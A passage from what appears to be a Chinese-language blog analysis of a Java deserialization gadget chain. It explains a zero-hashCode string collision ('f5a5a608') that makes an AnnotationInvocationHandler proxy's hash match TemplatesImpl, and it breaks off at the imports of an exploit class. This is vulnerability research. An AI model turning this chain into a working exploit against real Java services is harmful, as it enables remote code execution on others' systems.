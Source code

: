 >  return h ^ (h >>> 7) ^ (h >>> 4);
> }
> ```
>
> 可以看到，hash就是直接调用了对象的hashCode方法生成的。
>
> `但对象templates的hashcode是一个native方法，每次计算都会变动。`==所以现在只能看Proxy的hash计算了，需要让proxy的hash动态等于tempaltesimpl的hash==
>
> ```java
> private int hashCodeImpl() {
>  int var1 = 0;
> 
>  Entry var3;
>  for(Iterator var2 = this.memberValues.entrySet().iterator(); var2.hasNext(); var1 += 127 * ((String)var3.getKey()).hashCode() ^ memberValueHashCode(var3.getValue())) {
>      var3 = (Entry)var2.next();
>  }
> 
>  return var1;
> }
> ```
>
> 它的计算方式就是`累加 127 * ((String)var3.getKey()).hashCode() ^ memberValueHashCode(var3.getValue())`
>
> `关键点：`由于0异或任何等于任何数，此时如果让key的hash等于0，而value等于templatesImpl，那最后不就一直相等了嘛
>
> ```java
> for (long i = 0; i < 99999999L; i++) {
>  if (Long.toHexString(i).hashCode() == 0) {
>      System.out.println(Long.toHexString(i));
>  }
> }
> ```
>
> 得到了一个`f5a5a608`,使得`((String)var3.getKey()).hashCode()`==0,所以我们只需要将`AnnotationHandler`中的Map添加一组`map.put("f5a5a608", templates);`即可。

**5.利用逻辑梳理**

`hashMap#put->hashcode相等，所以直接调用AnnotationInvocationHandler#equalsImpl->再就是上面分析的利用`


![upload successful](/images/imgs/3.png)



**6.附上分析结果（有些赘余，此处略优化**

```java
package sec.aur0ra;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;

import javax.xml.transform.Templates;
import javax.xml.transform.TransformerConfigurationException;
import java.io.ByteArrayInputStream;
import java.io.FileInputStream;
import java.io.IOException;
import java.io.InputStream;
import java.lang.annotation.Annotation;
import java.lang.annotation.Retention;
import java.lang.reflect.*;
import java.util.HashMap;
import java.util.Map;

```